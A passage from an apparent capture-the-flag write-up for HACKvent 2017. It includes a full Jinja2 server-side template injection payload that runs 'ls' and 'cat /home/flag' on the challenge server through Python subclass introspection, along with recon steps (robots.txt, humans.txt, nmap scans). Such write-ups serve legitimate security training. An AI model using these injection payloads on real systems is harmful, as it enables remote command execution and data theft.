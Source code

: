 - Using stdout=subprocess.PIPE doesnt work (I guess, subprocess isnt known)..
- Bascially you can enter an integer here (file descriptor) or these special values..  
  Doing a import subproces & print subprocess.PIPE locally in python reveals -1  
  -> So subprocess.PIPE is only a name for -1! That means we can do stdout=-1
- http://challenges.hackvent.hacking-lab.com:1089/a%7B%7B%20''.__class__.__mro__[1].__subclasses__()[37](['ls','-la'],stdout=-1).communicate()%20%7D%7D  
  This gives us the directory listing
- http://challenges.hackvent.hacking-lab.com:1089/a%7B%7B%20''.__class__.__mro__[1].__subclasses__()[37](['cat','/home/flag'],stdout=-1).communicate()%20%7D%7D  
- FLAG: *HV17-7h1s-1sju-t4ra-nd0m-flag*

## Hidden 1
- The website has a page for each day. URL parameter day=x
- Enter number e.g. 2000 reveals resource #-16
- Use day=1984 to access resource #0
- Flag is hidden in the HTTP response headers (you could use Firefox Tools > Web Developer > Network) to see it
- FLAG: *HV17-4llw-aysL-00ki-nTh3-H34d*

## Hidden 2
- When you download and just boot up the PS3 game in the emulator for [Day 18](#Day-18), the flag is visible on the screen.
- FLAG: *HV17-Ju5t-s0me-fak3-FlaG-4y0u*

## Hidden 3
- Got a hint to look at the website from another perspective
- What are there? machines? crawlers?
- Check .htaccess file -> not there
- Check sitemap.xml -> not there
- Check robots.txt -> yay  
  We are people, not machines
- OK? Search this in Google
- There seems to be something like a humans.txt so lets get this
- FLAG: *HV17-bz7q-zrfD-XnGz-fQos-wr2A*

## Hidden 4
- Check whats available from the web server (files/folders)  
  Just see whats loaded from where and check if you can access
- Find two open folders /css and /img/icon
- Analyze whats in those folders.. Find strange /css/egg.png
- Decode QR code with any app
- FLAG: *HE17-W3ll-T00E-arly-forT-his!*

## Hidden 5
- Got a hint that its not on the webserver
- Tried to nmap the server to find other open ports  
  ```
  PORT     STATE SERVICE
  22/tcp   open  ssh
  53/tcp   open  domain
  80/tcp   open  http
  443/tcp  open  https
  3128/tcp open  squid-http
  8080/tcp open  http-proxy
  ```
- Did some test on them, but found nothing..
- Tried to dnsmap the server, but found nothing..
- But wait, the challenge on day 6 was hosted on another subdomain!
- Lets nmap challenges.hackvent.hacking-lab.com  
  ```
  PORT     STATE SERVICE
  ```
